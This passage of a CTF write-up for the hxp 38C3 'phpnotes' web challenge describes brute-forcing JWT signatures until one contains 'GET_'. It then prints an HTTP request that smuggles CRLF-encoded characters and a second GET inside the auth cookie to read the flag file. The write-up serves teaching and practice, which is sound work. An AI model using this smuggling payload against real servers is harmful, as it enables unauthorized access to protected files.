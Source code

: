 ```shell
┌[siunam♥Mercury]-(~/ctf/hxp-38C3-CTF/Web/phpnotes)-[2024.12.31|17:33:47(HKT)]
└> nc 172.18.0.4 80               
GET /𝗳𝗅𝒶𝑔
{"error":"malformed note json: hxp{dummy}","success":false}
```

Nice! We can now **reduce 4 required characters to smuggle**!

## Exploitation

To sum up, we need to **generate a JWT that contains the string `GET_` in the signature**, which is doable.

To generate the JWT more efficiently, the JWT is signed via PHP function `openssl_sign` when algorithm `RS256` is used. After some testing, it seems like the signature only changes based on the username and the second-granular UNIX timestamp of issue (`iat`) and expiry (`exp`).

> [...]the signature process itself is deterministic for a given message, and the message only changes based on the username and the second-granular UNIX timestamp of issue (`iat`) and expiry (`exp`). If you attempt to obtain signatures by logging in the same user over and over again, you will receive lots of duplicates, and spend a long time searching. - [https://hxp.io/blog/113/hxp-38C3-CTF-phpnotes/](https://hxp.io/blog/113/hxp-38C3-CTF-phpnotes/)

With that said, we need to **register a bunch of users and login to them**, so that we won't get any duplicates.

To get the JWT that contains `GET_` in the signature, I have written the following Python script:

<details><summary><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/hxp-38C3-CTF/Web/phpnotes)-[2024.12.31|18:01:28(HKT)]
└> python3 solve.py
[*] Starting 16 processes...
[+] We found a JWT that contains "GET_" in the signature: eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImM1ekJPS0FEUzEiLCJpYXQiOjE3MzU2NDQxMzYsImV4cCI6MTczNTY0NzczNn0.2Wv_niEfIYFkd9K7Xr6OEE3GZ4aaXDq6I4d5OrDckYdlHjYPqPzy77POKbAcqKRRZMRQFUnnjsYQ2GRR2X--lqxxDaqSLWkB9lqrg89irJ3roTKVb3JiGCsazn9WbOFP4tnVtTYqyd74HYaeusEITl8jhSxUta4xhIfMA4YF9q_mVbvCMpIpjRaIXlj6uYVfeSW5HQ3NVRifpbkL1wGrQtPZGET_TLbW8otGzBbWsEfYS6iahujRx8S3cuseAIwdFXIqTzkVMNbBTF5UfNXB3xnsm5oAGHIt48DJLUwnhgS8iDo_WDI-acXliHH3Y_ebn-yFhXRiUWaAolEXAMQvNw
```

> Note: This process could take a very long time. In my local testing environment, it took me around 1 hour.

After obtaining the correct JWT, we can send the following request to smuggle a request to get the flag file:

```http
GET /note.php?id=e88869df3efe30ba5e0afb8bbad0a9be HTTP/1.1
Host: localhost:4891
Cookie: auth=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImM1ekJPS0FEUzEiLCJpYXQiOjE3MzU2NDQxMzYsImV4cCI6MTczNTY0NzczNn0.2Wv_niEfIYFkd9K7Xr6OEE3GZ4aaXDq6I4d5OrDckYdlHjYPqPzy77POKbAcqKRRZMRQFUnnjsYQ2GRR2X--lqxxDaqSLWkB9lqrg89irJ3roTKVb3JiGCsazn9WbOFP4tnVtTYqyd74HYaeusEITl8jhSxUta4xhIfMA4YF9q_mVbvCMpIpjRaIXlj6uYVfeSW5HQ3NVRifpbkL1wGrQtPZ%0D%0A%0D%0AGET%20/%F0%9D%97%B3%F0%9D%97%85%F0%9D%92%B6%F0%9D%91%94%0D%0A%0D%0ATLbW8otGzBbWsEfYS6iahujRx8S3cuseAIwdFXIqTzkVMNbBTF5UfNXB3xnsm5oAGHIt48DJLUwnhgS8iDo_WDI-acXliHH3Y_ebn-yFhXRiUWaAolEXAMQvNw


```
